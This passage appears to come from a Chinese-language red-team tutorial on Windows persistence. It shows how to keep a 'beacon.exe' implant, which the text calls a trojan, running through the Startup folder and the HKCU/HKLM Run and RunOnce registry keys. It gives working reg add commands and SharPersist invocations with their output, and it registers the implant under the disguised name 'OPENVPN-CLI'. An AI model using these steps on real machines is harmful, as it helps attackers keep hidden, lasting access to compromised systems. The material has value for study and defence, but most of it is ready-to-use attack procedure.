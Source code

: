 重启机器后，就算不登陆，也会运行 beacon.exe。这个 beacon.exe 完整性级别是中等。

如果想任何用户启动，可以将快捷方式移动到全局启动目录内，系统的普通用户有权读写。Windows 11 测试失败，还是只有 123 用户上线 root 没上线。

```bash
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
  RW RAINGRAY\gbb
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  R  BUILTIN\Users
  R  Everyone
```

2.Registry AutoRun

注册表启动项分两类，一个是当前用户，另一个是当前机器，放在 Run 里的字符串登录后运行，[RunOne](https://learn.microsoft.com/en-us/windows/win32/setupapi/run-and-runonce-registry-keys) 也是登陆后后运行，区别在于只启动一次，一次性的原理也很简单，是启动后自动删除注册表，这样下次登陆时不会再重复运行。

-   HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run，当前用户每次登录都启动
    
    HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce，只启动一次
    
-   HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run，当前机器内任意用户每次登录都启动
    
    HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce，只启动一次
    

对 HKCU 注册表操作，普通用户就能创建注册表。

利用只需在注册表新建一个名为 OPENVPN-CLI 字符串，值是木马绝对路径。

```bash
PS C:\Users\123> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v OPENVPN-CLI /d "C:\Users\123\AppData\Roaming\beacon.exe"
操作成功完成。
PS C:\Users\123> reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v OPENVPN-CLI

HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
    OPENVPN-CLI    REG_SZ    C:\Users\123\AppData\Roaming\beacon.exe
```

SharPersist 也可以自动化 完成此操作。

```bash
PS C:\Users\123\Desktop> C:\Users\123\Desktop\SharPersist.exe -t reg -k hkcurun -v OPENVPN-CLI -c "C:\Users\123\Desktop\beacon.exe" -m add

[*] INFO: Adding registry persistence
[*] INFO: Command: C:\Users\123\Desktop\beacon.exe
[*] INFO: Command Args:
[*] INFO: Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
[*] INFO: Registry Value: OPENVPN-CLI
[*] INFO: Option:


[+] SUCCESS: Registry persistence added
PS C:\Users\123\Desktop> reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v OPENVPN-CLI

HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
    OPENVPN-CLI    REG_SZ    C:\Users\123\Desktop\beacon.exe
```
